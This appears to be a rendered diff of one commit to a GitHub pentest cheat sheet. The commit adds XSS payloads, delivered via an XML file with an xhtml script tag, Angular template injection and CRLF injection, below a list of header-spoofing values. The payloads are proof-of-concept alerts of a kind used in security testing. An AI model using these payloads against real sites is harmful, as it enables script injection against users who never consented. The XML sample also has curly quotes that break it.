

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1795,3 +1795,23 @@ X-Remote-IP: 127.0.0.1
 X-Rewrite-Url: 127.0.0.1
 X-True-IP: 127.0.0.1
 ```
+
+### XXS via XML FIle
+```xml
+<?xml version=”1.0" encoding=”UTF-8"?>
+<xhtml:html xmlns:xhtml=”http://www.w3.org/1999/xhtml">
+<xhtml:script>
+alert(“XSS”);
+</xhtml:script>
+</xhtml: html>
+```
+
+### XXS via Angular Template Injection
+```
+{{constructor.constructor(‘alert(“XSS”)’)()}}
+```
+
+### CRLF XSS Injection
+```
+<script>%0d%0aalert(1)</script>
+```
````
